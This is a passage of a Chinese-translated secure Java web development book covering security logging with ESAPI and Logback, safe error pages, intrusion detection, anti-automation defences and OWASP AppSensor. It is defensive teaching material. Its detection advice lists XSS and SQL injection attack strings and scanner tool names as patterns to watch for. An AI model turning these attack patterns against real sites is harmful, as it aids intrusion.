某些日志条目来自匿名（未登录）用户，需要在日志中明确标记。其他日志条目来自已验证的用户行为，你需要将来自同一用户会话的日志条目关联起来。会话 ID 似乎是为此目的而设计的，但正如我们在第 2 章中讨论过的，你必须极其谨慎地处理会话 ID。我们建议记录会话 ID 的哈希值，而不是会话 ID 本身。哈希值可以快速计算，但无法反向找到真实的会话 ID，且同一会话中的每个条目的哈希值都是相同的。

> 提示
> 
> 不要记录用户的会话 ID，因为这可能会向内部人员泄露关键身份验证数据！相反，记录会话 ID 的哈希，这样你可以引用同一会话的多个日志条目，而无需暴露会话 ID 本体。

## 安全相关日志事件

运行环境可能使用多个日志文件记录不同类型的事件。然而，如果所有的日志事件都在同一个日志文件中，有时更容易追踪发生了什么。如果你的应用程序将使用单个日志文件，你需要一种方法来明确区分哪些事件是安全相关的 224 铁甲 Java：构建安全的 Web 应用，哪些属于正常操作。以下类型的安全相关事件应该始终被记录。

> 提示
> 
> 考虑优先处理或突出高权限用户（如管理员或超级用户）的日志条目。


- 登录

- 登录失败

- 登销

- 安全问题更改

- 个人信息更改，如更改邮箱地址

- 密码重置尝试

- 新用户注册

- 用户注册

- 授权失败

- 访问级别更改，如授予管理员或超级

- 操作活动，如导出推文

- 系统管理活动

- 重要输入验证失败

## 不要记录的内容

根据 OWASP ASVS 错误处理与日志中的 8.10 (`https://code.google.com/p/owasp-asvs/wiki/V8`)：验证应用程序没有记录可能协助攻击者的特定敏感数据，用户 ID 和个人信息 225

你还需要对你不希望记录的信息类型小心。在调试应用程序时，开发者经常会记录敏感数据，这种做法允许（至少）内部人员通过窃取几个文件来获取大量数据。良好的数据保护策略还必须注意不要将敏感数据输出到日志文件、注释和错误消息中。这些代码产物中的任何一个都可能向攻击者暴露数据。

我们使用过的框架包含了在调试期间记录整个请求的方法。但考虑如果这些方法在部署到生产环境之前没有移除会发生什么？密码、信用卡号、社会安全号等敏感信息可能会直接以明文发送到日志文件中，绕过了你辛苦建立的所有加密和敏感数据处理保护。

2012 年 9 月 18 日，Radu Dragusin 在公共 FTP 服务器上发现了一个日志文件，其中包含超过 10 万 IEEE 在线用户的用户名。该公共日志文件包含了 Google、Apple、Microsoft、Oracle、IBM、主要大学及类似公司的 IEEE 在线用户的密码信息。这些数据的分析可以在 `www.ieeeelog.com` 找到。

> 在上线之前忘记移除你的 HTML 代码注释。这经常会泄露如开发者联系方式、系统密码和其他敏感技术信息。

## 用于安全的日志框架

Java 生态系统中大量的日志框架可供选择。有 Java 日志 API、Apache Commons Logging 组件¹、Apache log4j 项目²以及 Java 简单日志门面 (SLF4J)³。遗憾的是，这些项目中很少有提供让开发者开箱即用将日志条目标记为安全日志条目的 API。

¹`http://commons.apache.org/proper/commons-logging/`

²`http://logging.apache.org/log4j/2.x/`

³`www.slf4j.org/`

## 226 铁甲 Java：构建安全的 Web 应用程序

我们已经看到一些关于在 log4j⁴ 中添加特定安全日志级别的讨论，但为安全添加新的日志级别可能不是在安全中包含日志记录的正确方法。这仍然是一个争议问题。另一种方案是专门为你的安全消息创建一个新的日志记录实例。这使得将安全日志消息与诊断日志消息分离稍微容易。对于审计或不可否认性来说，情况确实如此。然而，仅为安全事件维护单独的日志文件会将安全消息从系统上发生的其他事件的上下文中移除。缺乏这种上下文实际上会让调查人员在入侵发生后更难拼凑出发生的情况。

## ESAPI 日志

以安全为中心的日志记录早期尝试之一是 Java 的 OWASP ESAPI 项目⁵ ESAPI 是一个安全库，包含了用于安全中心日志的特定且细粒度的 API。尽管该项目不一定具有生产级质量，但它仍然为高级安全人员在日志软件中寻求的需求类型提供了一个良好的示例。

ESAPI 日志的目标非常简单：提供一个 API，允许开发者轻松创建日志条目，该条目包含来自可靠源的时间戳、事件的严重级别、是否为安全相关事件的指示（如果与其他日志混合）、导致事件的用户身份（如果事件与用户相关）、与事件相关的请求的源 IP 地址、事件是成功还是失败，以及事件的描述。

特别是，ESAPI 将日志类型作为核心日志实现的一部分，提供了六种类别：

- `SECURITY_SUCCESS`

- `SECURITY_FAILURE`

- `SECURITY_AUDIT`

- `EVENT_SUCCESS`

- `EVENT_FAILURE`

- `EVENT_UNSPECIFIED`

> ⁴`https://www.owasp.org/index.php/How_to_add_a_security_log_level_in_log4`

> ⁵我们认为截至 2014 年 3 月该项目尚未达到生产级质量：`http://off-the-wall-security.blogspot.com/2014/03/esapi-no-longer-owasp-flagship-project.html`。

> ⁶OWASP ASVS 项目 8.6, `https://code.google.com/p/owasp-asvs/wiki/Verification_V8`

## 第 9 章：日志记录、错误处理与入侵检测 227

ESAPI 提供的事件类型是大多数开发者熟悉的标准日志级别（`fatal`、`error`、`warning` 等）之外的补充。一个示例用法如下：

```
String message =
  "Checkbox request data was submitted with impossible";
message += " value. User is likely tampering with the request";
log.warn(Logger.SECURITY_FAILURE, message, validationException);
/*输出如下消息：
2014-04-29 05:48:25,281 WARN SECURITY FAILURE Anonymous:0@unknown: unknown Checkbox request data was submitted with impossible value. User is likely tampering with the request */
```

这种对日志条目的简单强制分类允许开发者在发生安全故障时实时通知管理员。可见性对于你的事件响应或运营团队至关重要。

然而，细粒度的安全 API 可能不是安全日志记录的最佳选择。让我们在查看 Logback 时考虑这一点。

## 使用 Logback 进行安全日志记录

Logback 是原始 Apache log4j 库的精神继任者。它实现了 SLF4J 标准化日志 API，并且比 log4j 包含了许多新功能。Logback 的新功能之一是使用 Markers 和映射诊断上下文（MDC）为日志条目添加上下文信息的能力。通过 Logback 和少量的代码，就可以拥有一个功能全的安全日志库。

与 log4j 类似，Logback 将实际日志文件的任务委托给一个或多个 Appender 类。可以独立地配置多个 Appender，使其仅记录某些级别的事件，或仅记录具有某些 Markers 的事件。这种灵活性使得维护单独的日志成为可能

> 7 `http://logback.qos.ch/`

> 8 `www.slf4j.org/`

## 228 铁甲 Java：构建安全的 Web 应用程序

用于调试和安全相关的事件。Appenders 可以在本地记录日志文件，也可以将事件传递到另一个位置的日志服务，以确保在发生事件时你的日志文件始终经过备份。

## Logback Markers

Markers 是用于增强日志语句的具名对象。通过声明 Markers 并将其添加到日志语句中，开发者可以实现 ESAPI 承诺的事件细粒度分类，同时使用符合 SLF4J 标准的日志 API。要使用 Markers，你首先需要声明它们：

```
public static Marker SECURITY_SUCCESS =
MarkerFactory.get("SECURITY SUCCESS");
public static Marker SECURITY_FAILURE =
MarkerFactory.get("SECURITY FAILURE");
public static Marker SECURITY_AUDIT =
MarkerFactory.get("SECURITY AUDIT");
public static Marker EVENT_SUCCESS =
MarkerFactory.get("EVENT SUCCESS");
public static Marker EVENT_FAILURE =
MarkerFactory.get("EVENT FAILURE");
public static Marker EVENT_UNSPECIFIED =
MarkerFactory.get("EVENT UNSPECIFIED");
```

一旦声明了 Markers，就可以使用类似于 ESAPI 的 API 将它们添加到任何日志语句中：

```
log.warn(SecurityMarkers.SECURITY_AUDIT,
  "Anonymous account access attempt. Forwarding to login");
log.info(SecurityMarkers.SECURITY_SUCCESS,
  "User logged {} in successfully, {}", user.getUsername());
log.error(SecurityMarkers.SECURITY_FAILURE,
  "Unauthorized user {} attempted to access admin function",
  user.getUsername());
```

Markers 在 Appender 定义中由 `%marker` 表示。有了 Markers 后，上述语句在日志中的显示形式如下：

```
WARN: 16:42:28.448 INFO SECURITY AUDIT
c.i.d.LogbackLoggingServlet - Anonymous user attempted to access an
account. Forwarded to login screen
INFO: 16:42:28.455 INFO SECURITY SUCCESS
```

## 第 9 章：日志记录、错误处理与入侵检测 229

`c.i.d.LogbackLoggingServlet` - User logged August in successfully

ERROR: 16:42:28.455 INFO SECURITY FAILURE

`c.i.d.LogbackLoggingServlet` - Unauthorized user August attempted to access admin function

正如已经讨论的，在调查安全漏洞时，这种日志条目的分类是关键。除了向日志输出额外信息外，Markers 还可以用于添加日志级别（如 `TRACE` 或 `ALWAYS`），或者将日志条目过滤排序到不同的文件中。

## 映射诊断上下文

映射诊断上下文（或 MDC）允许按线程向日志上下文中添加额外信息。通过使用 MDCs，开发者可以将有关当前请求的信息（例如用户名、哈希会话 ID 和 IP 地址）添加到日志上下文中。这些信息将由同一请求中的后续每个日志语句输出。

MDC 在功能上类似于 `HashMap`，具有简单的 `get` 和 `put` 方法。这些方法是静态的，因此你甚至不需要声明 MDC 的实例。例如，要将用户名插入诊断上下文，只需使用以下代码：

```
MDC.put("username", user.getUsername());
log.info("Hello, user");
```

随后，可以使用 Appender 定义中的模式 `%X{username}` 来记录此值：

```
<appender name="STDOUT"
  class="ch.qos.logback.core.ConsoleAppender">
  <!-- encoders -->
    ch.qos.logback.classic.encoder.PatternLayoutEncoder
    by default --
  <encoder>
    <pattern>%d{HH:mm:ss.SSS} [%thread] %-5level %logger{5} - %X{username} - %msg%n</pattern>
  </encoder>
</appender>
```

## 230 铁甲 Java：构建安全的 Web 应用程序

这会在日志中产生类似如下的条目：

```
INFO: 15:21:57.523 [http-listener-1(2)] INFO
c.i.d.LogbackLoggingServlet august - Hello user!
```


在 Web 应用程序的诊断上下文中添加特定安全信息的简单方法是使用 Java EE 过滤器。以下过滤器会在每个请求（即每个线程）触发，并将用户名、哈希会话 ID 和 IP 地址插入到日志上下文中：

```
public void doFilter(ServletRequest servletRequest,
    ServletResponse servletResponse, FilterChain chain)
    throws IOException, ServletException {

HttpServletRequest request =
    (HttpServletRequest) servletRequest;

// 添加 IP 地址
MDC.put("ipAddress", request.getRemoteAddr());

// 添加哈希会话 ID
HttpSession session = request.getSession();
MDC.put("session", Utils.SHA1(session.getId()));

// 添加用户名
String username = (String) session.getAttribute("username");
if (username == null || "".equals(username.trim())) {
    username = "Anonymous";
}
MDC.put("username", username);

// 传递给其他过滤器
chain.doFilter(servletRequest, servletResponse);

// 清除上下文，安全起见
MDC.clear();
}
```

有了上述过滤器后，你的日志变得有用得多了！

```
INFO: 17:11:36.565 INFO SECURITY AUDIT c.i.d.LogbackLoggingServlet
    - 274960731a0e4eaf01b066e0d9b0176c345f6b8f:Anonymous
@0:0:0:0:0:0:0:1 - User forwarded to login screen
```

## 第 9 章：日志、错误处理与入侵检测 231

## 安全的错误处理

无论你的 Web 应用程序有多完善，迟早都必须处理异常。当 Java Web 应用程序以无法恢复的方式出错时，在浏览器中看到异常栈跟踪（见图 9-1）并不罕见。

图 9-1 所示的默认服务器错误信息不仅暴露了你正在使用 Java、所使用的库以及运行的 Apache Tomcat 精确（漏洞）版本，还让攻击者知道你极可能存在 SQL 注入漏洞！



图 9-1。在浏览器中显示敏感信息的未捕获 Java 栈跟踪

232 Iron-Cl Java：构建安全的 Web 应用程序

防止栈跟踪在用户浏览器中显示的一种方法是通过`web.xml`中的配置处理未捕获的异常。以下`web.xml`配置将确保任何触发未捕获异常的用户都将被重定向到“干净”的错误页面，而不是被展示栈跟踪数据。

```xml
<error-page>
<exception-type>java.lang.Throwable</exception-type>
<location>/WEB-INF/error.jsp</location>
</error-page>
```

相同的请求现在产生一个静态错误页面，不会显示有关应用程序的敏感信息（见图 9-2）。为错误提供一个唯一的引用号通常很有帮助。包含引用号可以为工程师提供日志中精确错误的索引，同时不会向应用程序用户泄露过多信息。这有助于更快速、更轻松地解决错误，从而使所有人受益。

除了在发生 Java 异常时使用通用错误页面外，为 HTTP 错误代码定义自定义错误页面也是明智的，以防止服务器默认页面（通常会显示服务器版本号）显示（见图 9-3）。要定义自定义 HTTP 错误页面，请向`web.xml`配置文件添加以下内容：

```xml
<error-page>
<error-code>404</error-code>
<location>/WEB-INF/error.jsp</location>
</error-page>
```



图 9-2。不显示敏感信息的通用错误页面



**图 9-3.** 默认 404 Not Found 错误页面显示了正在使用的服务器版本

不幸的是，你必须为每个可能的 HTTP 错误代码向`web.xml`添加单独的`<error-page>`。

## 应用层入侵检测

本节回顾了多种可以在应用程序受到攻击时提供可见性的技术。我们还将讨论阻止扫描器和“低级”自动化攻击的技术，帮助你将安全事件与杂质区分离开。

## 监控与入侵检测

如果有人试图对你的 Web 应用程序进行攻击操作，你希望尽快获知。监控日志中的异常事件通常有助于检测正在发生的黑客活动。Zane Lackey 在其名为“攻击驱动防御”的演讲中，分析了真实世界的流量，发现了检测异常事件并警告正在进行的攻击的技术。例如，使用 Gmail Admin Audit API，Zane 建议记录并监控任何用户多重因子设置的所有更改、新管理员账户的创建、任何账户权限提升为管理员、创建邮件转发过滤器等。这些许多事件是不规则地发生的，但在本质上是极其敏感的。Zane 还建议对成功或失败的登录进行记录、监控和告警，特别是针对用户正常地理位置和时区之外的登录。仅通过记录和监控这些基础活动，就可以在应用程序偏离统计常态时为你的事件响应团队提供警告。

传统的基于网络的入侵检测系统（IDS）通常关注 HTTP 层之下的攻击，不提供应用程序环境内的上下文。然而，在你的应用程序中添加有意义的入侵检测逻辑（即记录在应用程序框架内部接收到的事件），可以对传统工具无法看到的攻击活动产生显著的可见性。

## 检测明显的攻击流量

无法检测所有的自动化攻击，但一组极小的规则集可以帮助检测恶意活动。在《Web 应用程序安全的有效方法》中，Zane Lackey 讨论了检测 XSS 的简单技术，通过搜索包含常见 XSS 攻击模式的用户输入来实现，例如`alert()`、`document.write()`、`escape()`、`String.fromCharCode`或带有无效源属性的图像标签如``。演讲还指出，即使是极其简单的 SQL 注入检测工作（例如寻找`UNION ALL`），也能检测到惊人比例的 SQL 注入尝试。

此外，通常可以检测出易见的恶意工具本身。例如，SQLMap、Havij、Acunetix 等工具可以通过独特的 User Agent 字符串轻松识别这些工具。这些工具还经常以正常应用程序流量不会发生的方式损坏 HTTP 请求头，例如修改静态 cookie 值。通过寻找此类异常情况，通常可以检测到恶意流量并以最少的误报结果将其拦截。

## 检测输入违规与不可变组件

检测针对你的 Web 应用程序早期恶意活动的一种简单而有效的方法，是检测不可变组件何时向你的浏览器提交通过正常浏览器使用无法实现的数据。例如，用户从单选按钮组可以提交哪些值？

```html
<input type='radio' value='yes' name='yesorno' checked='checked'/>
<input type='radio' value='no' name='yesorno'/>
```

你网站的普通用户能够提交`yes`或`no`作为可能的单选按钮值。对于以非恶意方式操作标准浏览器的用户来说，绝对没有办法提交另一个值的单选按钮。如果你收到了任何其他内容，将表明攻击者正在使用拦截代理，如 OWASP ZAP、Burp Proxy、Paros Proxy、WebScarab、Tamper Data 或类似的工具，正如我们在第一章讨论的。这些工具允许攻击者修改 HTTP 请求的任何方面，包括通常是不可变的或在浏览器中具有有限选择列表的请求参数。当服务器处理表单请求时，一旦使用拦截代理“违反”了不可变字段，你就知道你面对的不再是一个试图买漂亮灯的普通用户。这种违规只在你受到攻击时发生。锁定该用户账户或根据你的风险承受能力采取其他适当行动是明智的。

## 访问控制违规

访问控制违规可能是应用程序的日常行为，也可能是某人以某种方式提升权限的迹象。在 UI 代码中，程序员通常会进行访问控制检查，以查看是否可以向用户显示链接或资源。例如：

```jsp
<%= JSP %>
<% if (user.hasAccess("admin_menu")) { %>
<a href="/admin/menu.jsp">ADMIN MENU</a>
<% } %>
```

# 236 铁甲 Java：构建安全的 Web 应用程序

在这里发生失败并无大碍；如果用户没有相应的权限查看该链接，代码就不会显示该链接。有时，从正常的应用程序使用和行为来看，访问控制失败是不可能的，你可以将这些事件视为可能的攻击并做出反应。例如，假设你有一个仅限管理员使用的“删除用户”功能。你只对管理员显示该按钮：

```jsp
<%= JSP %>
<% if (user.hasAccess("delete_user")) { %>
<a href="/user/delete_user.jsp">DELETING USER</a>
<% } %>
```

在服务器端，你必须再次检查用户是否有权访问删除用户功能。由于我们没有对没有相应权限的用户显示此功能，因此只有攻击者才能触发该组件的服务器端访问控制失败。这表明存在某种形式的强制越权、参数篡改或其他恶意行为。

```java
// 服务器端处理
if (user.hasAccess("delete_user")) {
deleteUser();
} else {
    // 报警，只有攻击者才会在这里
}
```

# 防御自动化攻击

你的攻击者中，有些是极其精明老练的威胁主体，拥有深厚的攻击安全技能和能力。而你的 Web 应用程序可能遭遇的其他“攻击”仅仅是“傻瓜机器人”或即用安全扫描器，某些人决定针对你的应用程序进行“指点打哪”式，而无需配置或专业知识。糟糕的机器人！

Web 应用程序安全联盟 (WASC) 认为，如果你的 Web 应用程序受到这些即用、自动化攻击，这就是一个漏洞¹³ 其他形式的自动化攻击更智能一些，针对公共功能，例如针对你的登录或注册页的破解攻击、自动购买热门娱乐票的攻击（例如你当地的贾斯汀·比伯¹⁴演唱会），或者编写脚本购买以确保你是第一个获得购买下一个 woot! 垃圾袋权利的人¹⁵。让我们来讨论一些技术，以确保只有真实人类在对你的 Web 应用程序执行敏感操作！

> ¹³“反自动化不足”（WASC 威胁分类法 #21）；http://projects.webappsec.org/page/13246938/insufficient%20Anti-automation

# 第 9 章：日志记录、错误处理与入侵检测 237

这些大多数反自动化技术并非完美的安全。尽管这一类防御不包含深层安全控制，但一些简单的反自动化技术至少可以让你轻松地过滤掉某些威胁，从而减少进入应用程序的“噪声”。这希望能够释放你的运营或事件响应团队，让他们更好地处理那些精明的攻击类别。

# 重新审视 CSRF 令牌

最基础的反自动化防御是跨站请求伪造令牌（CSRF Tokens）。我们在第 5 章中详细讨论过这一点，CSRF 令牌不仅能阻止伪造威胁，还能让攻击者难以对你的应用程序发起攻击。除非攻击脚本能够登录你的应用程序并在每次请求时维护会话状态，否则 CSRF 令牌足以阻止无状态自动化向你的站点发送成功的请求。

# 表单多态性

另一种反自动化技术是一种称为多态的编程技术。正如第 2 章讨论的，某些破解脚本通常尝试在极短时间内提交数百或数千次登录请求，以试图破解用户账户。这些脚本通过反复提交具有不同值的相同请求参数来快速运行。例如，你的登录表单可能有一个用户名和密码字段¹⁶，并且看起来如下：

```html
<form action="/loginServlet">
  <input id="username" name="username">
  <input id="password" name="password">
  <input type="submit">
</form>
```

¹⁴www.forbes.com/sites/zackalleygreenburg/2012/06/04/justin-bieber-sells-out-all-u-s-tour-dates-in-an-hour/

¹⁵www.woot.com/offers/bag-of-crap

¹⁶我们希望它没有“记住我”字段，正如第 2 章讨论的那样。

# 238 铁甲 Java：构建安全的 Web 应用程序

表单多态性的意义在于在每次请求时随机化输入参数的名称，以困扰自动化扫描器。每当请求一个多态登录表单时，服务器将返回随机名称的表单字段名称：

```html
<form action="/loginServlet">
  <input id="anZrr3K6GO" name="mLvQnupJJ">
  <input id="YQQgG8bPfn" name="4amna9LJhb">
  <input type="submit">
</form>
```

这将阻止针对同一参数名称集的重复尝试。当然，自动化攻击脚本可以被修改以绕过这种防御，即先请求登录表单的副本，然后在每次登录尝试之前解析随机化的参数名称。然而，即使是感知多态性的攻击脚本，也会因为每次都必须重新加载页面而大大减慢。大多数形式攻击自动化将无法绕过这种防御，除非编写了专门的代码来理解这种实时多态性。

# 蜜罐令牌表单组件

另一种可能有助于防御自动化攻击的技术是使用蜜罐令牌（honeytoken）。目标是欺骗脚本填充正常人类无法看到或任何方式填充的表单字段。在你的服务器端代码中，你应该始终为该组件留空字符串或什么，取决于你如何构建这个诱饵。这类似于 CAPTCHA 的目标，即用户在面对 CAPTCHA 时必须忍受的烦人可用性。

例如，你可以向敏感表单添加一个额外的表单组件（例如文本字段），并通过 CSS 通过将组件定位在页面之外来隐藏它。目标是让该组件对用户不可见，但仍然让那些从你的页面抓取 HTML 并自动填充所有表单字段为垃圾信息类似内容的机器人可以“填充”。自动化注册机器人会尝试填充这些“隐藏”表单字段，因为它们通常不了解 CSS，或者至少无法识别样式何时隐藏了表单组件。在服务器端，处理提交内容时，如果此隐藏参数具有非空值，你就知道它是机器人，你可以安全地（且安静地）拒绝该次注册提交。

# 第 9 章：日志记录、错误处理与入侵检测 239

# OWASP AppSensor

OWASP AppSensor 项目是一个用于实时攻击检测和响应的开源框架。这意味着你的应用程序实际上可以检测入侵者并保护自己！AppSensor 的功能类似于网络层入侵检测系统，但它运行在应用层。AppSensor 包含三个主要组件：

- 检测点

- 分析引擎（以及策略配置）

- 响应执行

从概念上说，检测和响应组件主要存在于自定义应用程序中，而分析组件则完全由 AppSensor 框架提供（尽管必须配置策略）。作为开发者，典型的工作流是：

1. **对应用程序进行监测** 你的应用程序将通过 API 调用（由框架转换为 JSON/REST 或 XML/SOAP 调用）通知 AppSensor 用户执行了可疑或已知的活动（例如：无效登录、XSS 尝试、绕过客户端验证）。在 AppSensor 的术语中，这些调用被称为“检测点”。AppSensor 提供大量的检测点列表来提供思路。

2. **配置策略** AppSensor 分析引擎组件使用开发者配置的 XML 策略，该策略规定了阈值（在 Y 时间内发生 X 次可疑事件），以确定一系列事件何时构成“攻击”，从而触发“响应”。响应的类型也在策略中配置。

3. **处理响应** AppSensor 提供了多个开箱即用的响应处理器（增加日志记录、注销用户、禁用用户、通知管理员等），开发者也可以设计

> ¹ https://www.owasp.org/index.php/OWASP_AppSensor_Project; 感谢 OWASP AppSensor 项目负责人和活跃代码编写者 John Melton 在非常短的时间内提供了关于 AppSensor 的卓越概述。

如果特定应用程序需要，可以使用自定义响应处理程序。接收响应有两种方式：应用程序可以轮询分析引擎获取响应，也可以通过 WebSockets 接收更新。这为许多环境提供了必要的架构灵活性。

让我们考虑一个示例应用程序来展示 AppSensor 如何工作。我们正在考虑的应用程序功能是“查看账户记录”。该应用程序设置了安全控制以防止未经授权的访问，但我们还想查看用户是否正在尝试暴力破解访问并据此做出响应：


```java
@Path("/accounts")
public class AccountViewHandler {

    @Inject
    AppSensorClient ids;

    @GET
    @Path("/view")
    public Account findAccount(@RequestParam("id") String id)
        throws UnauthorizedException {
        User user = UserContext.getCurrentUser();
        if (!user.isAuthorized(Data.Account, id)) {
            //用户没有权限

            // 通知 AppSensor
            Event event = new Event(
                new User(user.getUsername()),
                DetectionPoints.BRUTE_FORCE_ACCOUNT);
            ids.addEvent(event);

            // 标准错误处理
            throw new UnauthorizedException(
                "Not authorized to access this account.");
        }

        Account account = accountDao.find(id);
        return account;
    }
}
```

# 第 9 章：日志、错误处理与入侵检测

注意，应用程序已经有了权限检查。此外，代码经过了修改，以通知 AppSensor 执行该事件的用户以及事件类型。以下配置使用了 AppSensor 内置的响应动作来响应事件：

```xml
<detection-point>
  <id>BRUTE_FORCE_ACCOUNT</id>
  <threshold>
    <count>3</count>
    <interval unit="minutes">5</interval>
  </threshold>
  <responses>
    <response>
      <action>log</action>
    </response>
    <response>
      <action>disableUser</action>
    </response>
    <response>
      <action>disableComponentForSpecificUser</action>
      <interval unit="minutes">10</interval>
    </response>
  </responses>
</detection-point>
```

在此策略中，如果用户在五分钟内（`<interval>`）尝试了三次此类类型的事件（`<count>` 元素），将采取第一个 `<response>` 并执行额外的日志记录。如果用户尝试了六次（3 的倍数），账户将被禁用。如果用户在五分钟内尝试了九次，用户对该组件的访问将被禁用十分钟。该策略是完全可配置的，可以使用自定义响应动作。

AppSensor 框架允许你的应用程序从通用的攻击检测和响应中受益，这意味着你不需要自己构建它。该框架具有高度的可扩展性，可以根据你的应用程序和组织的需求进行定制。除了框架的检测和响应功能外，还有一个报告组件允许你将数据可视化，此外 API 还允许你你喜欢的方式访问并可视化数据。

## 总结

这些机制都是检测攻击者、停止某些形式的自动化以及留下清晰证据轨迹以调查安全事件的极佳方法。但如果这些技术是你保护 Web 应用程序的唯一防御，那么你的应用程序安全性将很快变得（正如古语所）穿了皮草却没穿内裤。设计安全的应用程序就像打造一套完整的盔甲，包括头盔、手套以及所有其他配套。日志记录、入侵检测和反自动化技术如果实施得当，可以让你对攻击者的行为获得惊人的洞察力，但它们只是复杂安全软件拼图中的碎片。


# 第 10 章：安全软件开发生命周期

## 在灾难发生前规避

本章主要旨在帮助你在软件安全灾难发生之前阻止它。安全的软件开发生命周期（SSDLC）涵盖了从软件设计、开发到现场执行过程中的广泛安全流程和活动。这些内容都不是容易的，也不是科学的，尽管许多组织使用类似的流程来构建安全软件，但大多数组织的复杂性和文化是非常不同的，甚至即使在那些声称使用相同软件构建流程的组织之间也是。虽然流程通常是安全编码中较“软性”的话题之一，但它也是最重要的主题之一——特别是对于大型组织而言。

你的团队在实施安全软件开发流程方面越成熟，你软件中的安全漏洞就能越早地得到解决。在生命周期早期处理漏洞可以节省资金并降低构建安全产品的总体成本。确保“修复”的安全漏洞不会因代码回滚或因为一个不擅长安全开发的新程序员而重新引入也是至关重要的，这应该让你的运行软件产生更少的安全事件。即使在以及你真的被入侵时，成熟的 SDLC 也包含了良好的事件响应，并准备了软件和其他流程，使处理和管理黑客事件成为一个深思熟虑的过程。

什么更贵？从一开始就投资于软件安全和构建安全软件？还是为黑客事件的恢复以及防止未来攻击所需的补救买单更贵？这真的取决于情况。你觉得自己运气好吗，小子？在一方阵营中，我们听到口号：“让我们回到真正的工程，对我们正在构建到软件中的安全属性更加谨慎。”这一派认为，从漏洞中恢复的成本比从一开始做正确的事要得多。在另一阵营中，我们听到口号：“快速行动，我们可以以后担心安全，或者直接买网络安全保险，或者等我们被黑后再付钱。”真的，情况可能有两种。在做出该决定之前，你必须对你的网站进行清晰的清单，并评估应用程序面临的整体风险。为了做到这一点，你必须考虑你的资产、攻击者可能的动机以及安全泄露的潜在后果。

## 资产

资产是通过你的网站可以访问的内容，并且对攻击者可能具有某些价值。你的网站处理的资产类型将帮助你理解理论攻击者的动机。以下列表是攻击者可能想要的资产示例：

- 金钱
- 信用卡号
- 商业秘密
- 个人身份信息 (PII)
- 密码或加密密钥
- 后端系统的访问

除了这些资产之外，随着物联网的发展，你还需要考虑你的 Web 应用程序可以访问的物理设备。我们已经看到安全研究人员关于远程黑入摄像头和玩具的演示。连接设备的列表正在扩大到汽车、工业设备以及我们每天与之交互的许多物品。

## 动机

如果你的网站拥有价值的资产或涉及资金，你几乎会面临高动机、高技能的攻击者，你最好投资安全。同样，我们看到国家支持的黑客针对工业和商业秘密。为什么黑客想要攻击你的网站？考虑以下可能性：

- 金钱！
- 信息
- 冒充或跟踪你的用户
- 在世界面前羞辱你（黑客主义）
- 个人/组织复仇（如 Anonymous 对决 HBGary）
- 纯玩（如 Anonymous 对决 Scientology）
- 仅仅为了证明他们可以

## 结果

如果你被黑了会发生什么？如果你做的只是提供一个发布可爱土鼠图片的论坛，那么也许并没那么重要。但当你拥有 Web 上最大的土鼠网站，且安全事件每天让你损失数千美元时，会发生什么？以下是黑客的一些结果：

- 金钱被盗
- 停机导致损失
- 商业秘密泄露
- 罚款/处罚
- 失去用户的信任

除了金钱之外，还有另一个因素需要考虑——消费者信心。一旦你失去了用户的信任，就很难赢回来。仅仅修复问题和增加安全预算是不够的。金钱不能一夜买回丢失的信心。在软件修复很久之后，担忧和疑问会在用户心中停留多年。消费者信心的货币是对你安全目标的长期且坚定的投入。永远不失去它是最好的，恢复它的代价是天文数字。

> **提示**
>
> 当你被黑时，事件带来的“成本”可能不是金钱。失去的信任或士气会对你的组织造成巨大损害，而且通常难以量化。评估你的应用程序面临的真实风险可能是困难的。然而，如果你能在某种程度上量化它，它可以帮助你为更多安全资源提供商业理由。事实是，几乎没有人说安全不重要，只是应用多少、何地以及何时应用是难为人知的。

## 安全领域的团队角色

构建安全的软件，特别是为大型组织构建复杂软件，是一项团队运动。许多个人需要进行有效的协作（通常在巨大的压力下），以便高效、准确地生产安全软件。接下来的章节将讨论需要考虑的主要角色。

### 角色：安全与软件架构师

软件团队中难度最高的角色之一是安全与软件架构师。此人员不仅在理解构建软件的复杂性方面需要极其敏锐，还需要对软件威胁以及关键防御模式了如指掌。他们还需要能够与“业务部门”进行有效沟通，以确保将正确的业务需求转换为可运行的软件。由于该角色所需的知识极其庞大，大多数大型公司都设有架构“圆桌”或其他机制，由多人共同担任这一角色。在任何招聘招聘网站上搜索“软件架构师”，你都会看到包含以下要求的：

- 在现代网络技术发明之前就对其了深度掌握
